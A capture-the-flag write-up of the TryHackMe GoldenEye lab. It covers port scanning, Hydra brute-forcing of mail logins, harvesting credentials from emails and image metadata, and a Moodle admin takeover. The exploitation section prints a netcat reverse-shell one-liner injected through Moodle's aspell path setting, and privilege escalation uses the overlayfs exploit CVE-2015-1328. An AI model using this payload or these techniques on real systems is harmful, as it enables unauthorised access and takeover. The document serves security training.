# GoldenEye TryHackMe Writeup
### Level: `Medium` | OS: `Linux`


## Scanning
We perform a quick and aggressive scan (**not recommended in real environments**) to detect open ports on the server.



Then, knowing the ports, we will launch an nmap with scripts and versions.



## Enumeration

We access the website, find a message with the mission and it tells us to enter the *"/sev-home/"* directory to log in with *"UNKNOWN"* user.



We see that it asks for credentials, so we may need to brute force it.



We review the source code, access the *"terminal.js"* file and identify an encoded password.



#### Password Decode



We enter the credentials obtained (using the user *"boris"*) and we are invited to send an email to a GoldenEye supervisor.



We revisit the source code and list two supervisors.



We launch **Hydra** with a list of the two supervisors and a quick dictionary with most used passwords, we will get the new password of the user *"boris"*.



We connect by **Telnet** with the obtained credentials, we see that we have *3 mails* in the tray.


We read the *3rd email*, it seems that *Boris* saved the codes in the root of the root folder



The next thing I tried was to catch all the users obtained from the emails and in the enumeration phase, I re-launched the same dictionary and the login credentials of the user *"Natalya"* appeared.



We use the new credentials, read the emails where we will get some credentials and a web address that we will have to add to our *"/etc/hosts"* file.



We log in, check **Moodle** and find a message from a *"Dr. Doak"*.



We try again to brute force the POP3 service with the user *"doak"* and we get the credentials of this user. Yes, that's right! We reconnect via **Telnet** and see your emails ;)



#### Credentials obtained from Doak mailings.



We connect to **Moodle** with the credentials obtained, look in its files and find one called *"s3cret.txt"*.



#### Contents of file "s3cret.txt":



We access the path of the link and download the image to our kali.



We analyze with the tool "Exiftool" and we see that it contains a password encoded in base64.



## Exploitation

Log in with the administrator credentials, reviewing all the options we find the *"Path to aspell"* (we were previously given a hint of aspell).



#### Payload

```bash
sh -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f'
```

Create a new entry and click on the button.



#### Reverse shell



## Privilege Escalation

We do a reconnaissance phase, but we do not find anything useful. We launch the **Linux exploit suggester** script, it lists several scripts that we can use. In my case, I used the *"CVE-2015-1328 - OVERLAYFS"*.


We host the file to compile it on the victim machine, but the **"gcc"** binary is not installed, but in the recognition phase we detect a binary called **"cc"**, if we use **"file"** on it we see several symbolic links until we find **"clang"**.



We modify the exploit by changing the **"gcc"** binary to **"cc"**, compile and run the exploit becoming root.



We read the root flag and it gives us the path with the deactivation codes.



MISSION COMPLETED!!



---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

 [David-Uton](https://www.linkedin.com/in/david-uton/)
 [@David_Uton](https://twitter.com/David_Uton)
